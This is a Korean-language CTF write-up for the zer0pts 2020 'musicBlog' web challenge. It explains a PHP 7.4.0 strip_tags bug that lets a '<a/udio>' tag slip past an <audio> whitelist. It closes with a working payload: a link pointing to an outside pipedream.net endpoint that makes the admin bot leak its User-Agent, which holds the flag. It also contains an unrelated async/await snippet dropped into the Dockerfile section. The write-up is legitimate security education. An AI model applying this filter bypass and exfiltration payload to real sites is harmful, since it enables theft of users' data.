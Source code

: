 ```yaml
---
emoji: 🥓
title: zer0pts ctf 2020 - musicBlof 취약점 분석
author: Zer0Luck
date: '2020-08-24'
categories: CTF
tags: Web Zer0pts CTF
---
```


# 취약점 분석

> Name
> musicBlog

> Description
> You can introduce favorite songs to friends with MusicBlog!

> File
> MusicBlog.tar.gz

## DockerFile 분석

![./0.png](./0.png)

- PHP 7.4.0 버전을 사용하는 것을 확인할 수 있으며 해당 버전에 맞는 버그를 바탕으로 flag를 획득할 수 있겠다.

```jsx
async function 함수이름() {
	await 비동기 처리 메서드 명();
}
```

- 함수의  앞에 async 라는 예약어를 붙인후, 함수 내부에서 비동기 처리가 필요한 메서드에 await를 붙여준다.
- await 붙인 메서드는 비동기 처리 메서드가 꼭 promise 객체를 반환해야 await가 의도한 대로 동작한다.

## flag 문자열 찾기

![./1.png](./1.png)

- flag 문자열을 검색하여 `worker.js` 소스코드를 확인할 수 있다.
- 해당 코드를 보면 재선언, 재할당이 불가능하도록 설정되어 있다. `zer0pts{<censored>}`
- setUserAgent 메서드를 바탕으로 flag 값을 UserAgent로 설정하는 것을 확인할 수 있다.

## SamplePage

![./2.png](./2.png)

![./3.png](./3.png)

- Sample Page 분석시 `<audio>` 태그를 사용하여 post 올릴 수 있는것으로 추정된다.

## post.php 분석

![./4.png](./4.png)

- post를 게시할 때 문자열 필터링을 하는 부분이 존재한다. 해당 부분은 `render_tags` 함수를 바탕으로 제어된다.

## util.php 분석

![./5.png](./5.png)

- `redner_tags` 함수는 util.php에 구현되어 있으며 사용자의 입력값을 인자로 받아와 `preg_replace` 함수를 바탕으로,

```php
$str = preg_replace('/\[\[(.+?)\]\]/',
	'<audio controls src="\\1"></audio>', '[[www.naver.com]]');

=>
<audio controls src="www.naver.com"></audio>
```

- `[[URL]]` 정규화를 바탕으로 `<audio>` 치환되는 모습을 확인할 수 있다
- 두번 째 필터로는 `strip_tags` 함수로 `<audio>` 태그를 정확히 써야 허용되는 메서드이다.

```php
strip_tags('<audio>', '<audio>'); // => allows
strip_tags('<script>', '<audio>'); // => Deny
```

- 하지만 두 번째 필터링 부분에서 PHP 버그가 발생한다.

## strip_tags allows / in tag name, allowing whitelist bypass in browsers

![./6.png](./6.png)

- `strip_tags` 관련 bug를 확인하면 만약 `<strong>` 태그를 화이트리스트에 존재할 경우 `<s/trong>` 구문도 그대로 복사되어 유지되는 모습을 확인할 수 있다.

## PHP Bug 테스트

![./7.png](./7.png)

![./8.png](./8.png)

- `<audio>` 태그 부분에 `/` 을 입력하여 `strip_tags` 메서드 버그로 인하여 다음과 같이

```html
<a udio>PHP BUG</a>
```

- `a` 태그 로 인식하게되어 우회가 가능하다. 그렇다면 a태그를 사용하여 외부 서버로 요청을 보내게 되면 `user-agent` 헤더 부분을 읽을 수 있지 않을까?
- 그렇다면 앞에서 분석해본 `work.js` 에서는 `newPage()` 메서드를 통해 생성을 한 후에 `UserAgent`를 바탕으로 적용을 한후 `id: like` 이벤트가 발생하였을 경우 적용된 resource를 받을 수 있기 때문에 페이로드를 짤때 `id` 값을 like로 적용을 한 후에 보내야 한다.

```html
<a/udio href="https://11973bb238cad6a84c369c6b0060ed0b.m.pipedream.net" id="like">
	 EXPLOIT </a/udio>
```

![./9.png](./9.png)

![./10.png](./10.png)

## response Event 확인

![./11.png](./11.png)

- 응답 결과 헤더 라인에 user-agent 속성에서 FLAG 값을 확인할 수 있다.

``` toc
```